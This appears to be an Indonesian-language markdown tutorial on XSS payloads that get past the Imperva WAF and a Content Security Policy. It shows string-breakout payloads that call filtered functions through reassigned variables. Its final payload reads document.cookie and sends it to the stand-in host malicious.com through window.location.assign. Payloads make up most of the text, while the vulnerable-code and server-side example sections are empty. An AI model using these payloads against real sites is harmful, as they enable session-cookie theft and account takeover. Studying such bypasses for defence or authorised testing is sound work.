

# XSS BYPASS IMPERVA dan CSP(Content Security Policy)  - 25 Januari 2022
# Imperva memfilter beberapa hal
## 1. Tag HTML yang malicious 
    * <script>
    * 
    * javascript::
## 2. Built in function dari javascript
```javascript
console.log("test")
alert("test")
prompt()
window.open("http://malicious.com")
```


## Bypass ini bisa dilakukan jika kita sudah bisa mengontrol variabel pada javascript
####  Example Vulnerable Code: 


### Disini kita bisa memanggil function yang difilter dengan cara menyimpan objek dari function ke variable dahulu

#### Example Payload :
```javascript
');let f=123;f=2;f=console;f.log("XSS CONSOLE HERE");//
```

```javascript
');let f=123;f=2;f=alert;f("XSS ALERT HERE");//
```


### maka payload yang diterima server menjadi :


# Bypass CSP (Content Security Policy)
### kita bisa memanfaatkan function javascript :
```javascript
window.open("http://malicious.com")
window.location.assign("http://malicious.com")
window.location.replace("http://malicious.com")
```

### Apabila digabungkan dengan bypass xss sebelumnya maka final payload menjadi :
```javascript
')let x=22;x=document;x=x.cookie;let f=123;f=2;f=window;f=f.location;f.assign("http://malicious.com/"+x);//
```
